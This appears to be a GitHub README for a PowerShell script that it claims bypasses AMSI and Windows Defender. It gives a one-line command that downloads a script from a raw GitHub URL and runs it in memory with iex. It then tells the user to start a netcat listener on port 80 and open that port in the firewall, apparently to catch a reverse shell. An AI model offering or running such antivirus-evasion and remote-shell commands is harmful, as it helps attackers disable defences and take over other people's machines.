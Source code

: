 ## Basic Usage
This is a powershell script that bypass amsi / defender:)

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obstest/main/script.ps1')
```

## set up a listerner 
nc -lvnp 80

You need to make sure that you have the port allowed by you firewall
You can check by using 
````
ufw status
````
You can allow a port by using
````
ufw allow [port]
````

Remember to stop any service running on port 80
